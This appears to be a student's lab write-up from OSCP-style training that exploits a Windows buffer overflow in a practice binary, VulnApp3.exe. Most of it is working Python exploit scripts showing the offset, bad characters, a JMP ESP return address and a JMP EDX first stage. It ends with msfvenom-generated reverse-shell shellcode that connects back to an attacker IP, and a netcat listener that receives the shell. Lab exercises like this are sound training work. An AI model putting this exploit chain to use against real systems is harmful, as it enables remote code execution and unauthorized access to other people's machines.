





VulnApp3..exe

# Vuln3

## The original poc:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow$ cat Vuln3_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "A" * 0x8B0

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.176.227", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Crash the app
Modify the poc to include the Widow client's IP address. I tried fuzzing for buffer length 1-10000. Turns out the problem isn't the buffer length, it's the 'A' character! Try using B's instead. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 1_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "B" * 2224 # x8b0

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

The app crashed with EIP 14801029. Notice that EDI and ESI both write B's to those registers.


Fuzzing with B's didn't work either. I could only send one payload per script. Buffer value 2084 will write EIP 42424242.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 1_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "B" * 2084 # x8b0 2224

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Find space for first stage shellcode
We will verify the crash and use the technique of increasing our buffer.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 2_verify_offset.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  buffer = "Z" * (2100 - len(filler) - len(eip))
  inputBuffer = filler + eip + buffer

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

The app crashes at EIP 59595959 (the Y's), and we see that EDX looks like a good place to put shellcode. Or is it... the address may not be good.

Get the opcode for JMP EDX
```plaintext
kali@kali:~$ msf-nasm_shell 
nasm > jmp edx
00000000  FFE2              jmp edx
nasm > 
```

Modify the code to replace the stack pointer to point to EDX.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 3_first_stage_shellcode.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

The app crashes at EIP 59595959 and ESP at 03D3FF88


We also confirm we see the JMP EDX code when we follow ESP 03D3FF88 in dump.



# Identify bad characters
Bad chars are: **\x00\xc5**
The following script was used to check for bad characters, 14 characters at a time. We Follow in Dump the ESP and see if each character is there in the right sequence. If not, we know the bad character is the one not in sequence. Or sometimes the app crashes in a way that we can't follow the ESP at all
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 4_bad_chars.py 
#!/usr/bin/python
import socket

# Bad chars in this script are: \x00\xc5
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
badchars = "\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c"
badchars = "\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a"
badchars = "\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38"
badchars = "\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46"
badchars = "\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54"
badchars = "\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
badchars = "\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars = "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e"
badchars = "\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c"
badchars = "\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a"
badchars = "\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
badchars = "\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
badchars = "\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4"
badchars = "\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
badchars = "\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars = "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee"
badchars = "\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc"
badchars = "\xfd\xfe\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + badchars

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Find a return address
When running `!mona modules` we see that Vuln3App.exe is the only module running with security features disabled.


Look for the op instruction code for JMP ESP
```plaintext
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

We will look for a naturally occurring JMP ESP address within the Vuln3App.exe module. 
Run `!mona find -s "\xff\xe4" -m "VulnApp3.exe"`
We see that 1 pointer is found at address 0x1480111e, and we replace the EIP variable in the script with the address


Here is the script with the eip variable updated to 0x1480111e
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 5_find_return_address.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

Before running the exploit, confirm there is a JMP ESP at 0x1480111e then set a breakpoint on it.


Run the exploit. Confirm that we hit the breakpoint.


Single-step by pressing F7. We see we are at the JMP EDX code.


Press F7 and we see we are at the beginning of the EDX register.

Follow EDX 00581fb8 in dump, and we see the ample space for shellcode.


## Generate shellcode
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82";
```

Start a netcat listener
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (you can have a breakpoint on it, but you'll have to step through the code before you get a shell). In my case, I just launched the app and didn't open the debugger. Here is the code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 6_add_shellcode_yes_nops.py 
#!/usr/bin/python
import socket

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
shellcode = ("\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82")

try:
  print "\nSending evil buffer..."
  nop_sled = "\x90" * 16
  filler = "B" * (2080 - len(nop_sled) - len(shellcode))
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(nop_sled) - len(shellcode) - len(filler) - len(eip) - len(first_stage))
  inputBuffer = nop_sled + shellcode + filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

Notice we have a shell on the Kali netcat listener


